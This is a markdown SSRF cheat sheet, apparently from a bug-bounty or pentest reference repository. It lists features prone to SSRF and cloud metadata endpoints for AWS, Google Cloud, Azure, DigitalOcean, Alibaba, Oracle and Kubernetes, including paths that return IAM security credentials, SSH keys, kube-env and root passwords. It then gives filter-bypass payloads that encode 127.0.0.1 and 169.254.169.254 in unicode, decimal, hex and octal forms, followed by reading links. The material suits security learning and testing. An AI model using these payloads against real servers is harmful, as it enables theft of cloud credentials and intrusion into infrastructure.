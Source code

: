 # Server Side Request Forgery (SSRF)

**Unordered top 5 features that are often prone to SSRF vulnerabilities**

* Webhooks
* PDF generators
* Document parsers
* Link expansion
* File uploads

### Cloud Metadata

> Cloud meta-data can return information helpful to understand the infrastructure and may reveal access tokens, API tokens, and more

#### AWS 
```
# Amazon Web Services (No Header Required)
# from http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
```

#### Google Cloud (Header Sometimes Required)
```
#  https://cloud.google.com/compute/docs/metadata
#  - Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True" on API v1
#  - Most endpoints can be accessed via the v1beta API without a header
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
# kube-env; thanks to JackMc for the heads up on this (https://hackerone.com/reports/341876)
http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env
# Google allows recursive pulls 
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
# returns root password for Google
http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/?recursive=true&alt=json
```

#### Digital Ocean (No Header Required)
```
# https://developers.digitalocean.com/documentation/metadata/
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address
```

#### Packetcloud
```
https://metadata.packet.net/userdata
```

#### Azure (Header Required)
```
# Header: "Metadata: true"
# https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service
# (Old: ) https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
```

#### Oracle Cloud (No Header Required)
```
# https://docs.us-phoenix-1.oraclecloud.com/Content/Compute/Tasks/gettingmetadata.htm
http://169.254.169.254/opc/v1/instance/
```

#### Alibaba
```
# https://www.alibabacloud.com/help/faq-detail/49122.htm
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```

#### OpenStack/RackSpace 
```
# https://docs.openstack.org/nova/latest/user/metadata-service.html
http://169.254.169.254/openstack	 
```
#### Oracle Cloud
```
# https://docs.oracle.com/en/cloud/iaas/compute-iaas-cloud/stcsg/retrieving-instance-metadata.html
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
```

#### Kubernetes

```
# Debug Services (https://kubernetes.io/docs/tasks/debug-application-cluster/debug-service/)
https://kubernetes.default.svc.cluster.local
https://kubernetes.default
# https://twitter.com/Random_Robbie/status/1072242182306832384
https://kubernetes.default.svc/metrics
```

## Bypassing filters

### Blacklisted IPs

If the service has blacklisted internal IP addresses this might be possible to bypass in numerous ways.

[This script](https://github.com/cujanovic/SSRF-Testing/blob/master/ip.py) will output possible bypass vectors like the ones below.

```
http://169。254。169。254/
http://169｡254｡169｡254/
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://[::①⑥⑨｡②⑤④｡⑯⑨｡②⑤④]:80/
http://[::ⓕⓕⓕⓕ:①⑥⑨。②⑤④。⑯⑨。②⑤④]:80/
```

#### Decimal

[IPv4 to decimal converter](https://www.browserling.com/tools/ip-to-dec)

```
target.com/?url=http://2130706433 (127.0.0.1)
```

#### Hexadecimal

[IPv4 to hexadecimal converter](https://www.browserling.com/tools/ip-to-hex)

```
target.com/?url=http://0x7f.0x00.0x00.0x01 (127.0.0.1)
target.com/?url=http://0x7f000001          (127.0.0.1)
```

#### Octal

> Not positive that this works well or at all. Still testing

[IPv4 to octal converter](https://www.browserling.com/tools/ip-to-oct)

```
target.com/?url=http://0177.0000.0000.0001 (127.0.0.1)
target.com/?url=http://017700000001        (127.0.0.1)
```

## Resources

* **Reading**
  * **Articles**
    * [Server-Side Request Forgery (SSRF) Attacks - Part 1: The basics](https://medium.com/poka-techblog/server-side-request-forgery-ssrf-attacks-part-1-the-basics-a42ba5cc244a)
    * [Server-Side Request Forgery (SSRF) Attacks  - Part 2: Fun with IPv4 addresses](https://medium.com/poka-techblog/server-side-request-forgery-ssrf-attacks-part-2-fun-with-ipv4-addresses-eb51971e476d)
    * [Server-Side Request Forgery (SSRF)  Attacks - Part 3: Other advanced techniques](https://medium.com/poka-techblog/server-side-request-forgery-ssrf-part-3-other-advanced-techniques-3f48cbcad27e)
    * [What is server side request forgery (SSRF)?](https://blog.detectify.com/2019/01/10/what-is-server-side-request-forgery-ssrf/)
    * [How To: Server-Side Request Forger (SSRF)](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF)
  * **Writeups**
    * [SSRF in proxy.duckduckgo.com via the image_host parameter](https://hackerone.com/reports/358119)
    
* **Hands On**
  * [SSRF Lab](https://github.com/m6a-UdS/ssrf-lab)

* **Tools & Services**
  * [IPv4 to decimal converter](https://www.browserling.com/tools/ip-to-dec) (Online Service)
  * [IPv4 to octal converter](https://www.browserling.com/tools/ip-to-oct)
  * [IPv4 to hexadecimal converter](https://www.browserling.com/tools/ip-to-hex)
  * [SSRF testing resources](https://github.com/cujanovic/SSRF-Testing) (Github Repo)
